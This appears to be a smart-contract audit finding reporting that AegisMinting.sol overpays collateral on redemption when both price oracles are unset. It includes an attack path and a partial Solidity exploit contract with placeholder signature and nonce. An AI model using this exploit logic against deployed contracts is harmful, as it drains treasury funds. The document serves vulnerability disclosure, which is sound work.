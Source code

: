 Long Wintergreen Bee

Medium

# Excessive collateral payout when both price feeds are disabled

### Summary

If both the Chainlink USD feed and the AegisOracle are disabled or unset (i.e. their addresses are zero, or return a zero price), the function  
`_calculateRedeemMinCollateralAmount(...)` in AegisMinting.sol contract
skips both on-chain price checks and simply returns the user-supplied `order.collateralAmount`.  
As a result, during redemption the contract may hand over **up to** the full user-supplied collateral for burning just a fraction of YUSD - potentially far more than current market prices justify.

### Root Cause

In [`AegisMinting.sol:288`](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L288) is calculated the minimum collateralAmount, but if Chainlink USD feed and AegisOracle are disabled it will return the whole amount of token as much the user wants.

### Internal Pre-conditions

1. address(_feedRegistry) = address(0)
2. address(aegisOracle) = address(0)
2. the user request to redeem some YUSD tokens
3. FUNDS_MANAGER_ROLE approve the redeem request
4. the user receive excessive collateral payout

### External Pre-conditions

1. attacker needs to hit the moment when Chainlink USD feed and the AegisOracle are disabled or unset

### Attack Path

1. Attacker knows that Chainlink USD feed and the AegisOracle are disabled or unset
2. Calls redeemRequest with buch amount of tokens
3. An admin with role FUNDS_MANAGER_ROLE mistakenly approves the request

### Impact

** Over-payout of collateral_**
   - Say,  a user wants to redeem a certain number YUSD tokens. In return, he receives as many tokens as the colateralAmount. 
   - With both feeds disabled -> both checks skipped -> contract overpays collateral
   - If the user’s “max acceptable collateral” is set above true market value, the contract overpays, draining excess collateral from its treasury.

   - Given sufficient collateral reserves in the contract, an attacker can withdraw arbitrarily large amounts of asset tokens in exchange for burning a fixed YUSD burn amount - effectively minting free tokens of that asset.

### PoC

`
  contract Exploit {
      AegisMinting minting;
      IERC20 yusd;
      IERC20 collateral;

    constructor(address _minting, address _yusd, address _collateral) {
        minting    = AegisMinting(_minting);
        yusd        = IERC20(_yusd);
        collateral  = IERC20(_collateral);
    }

    function runExploit() external {
        // 1) Ensure attacker has at least 1 YUSD
        yusd.approve(address(minting), type(uint256).max);

        // 2) Set OrderLib.Order with:
        //    .orderType = REDEEM
        //    .userWallet = attacker
        //    .collateralAsset = address(collateral)
        //    .collateralAmount = 100
        //    .yusdAmount = 1
        //    .slippageAdjustedAmount = 0
        OrderLib.Order memory order = OrderLib.Order({
            orderType: OrderLib.OrderType.REDEEM,
            userWallet: address(this),
            collateralAsset: address(collateral),
            collateralAmount: 100,
            yusdAmount: 1,
            slippageAdjustedAmount: 0,
            nonce: /* fresh nonce */,
            expiry: block.timestamp + 1 days,
            additionalData: abi.encode("my-request-1")
        });
        bytes memory sig = /* valid signature by trustedSigner */;
        
        // 3) Submit redeem request
        minting.requestRedeem(order, sig);

        // 4) As FUNDS_MANAGER_ROLE, call:
        //    minting.approveRedeemRequest("my-request-1", 100);
        //    -> attacker receives 100 collateral tokens for burning just 1 YUSD
    }
}`

### Mitigation

_No response_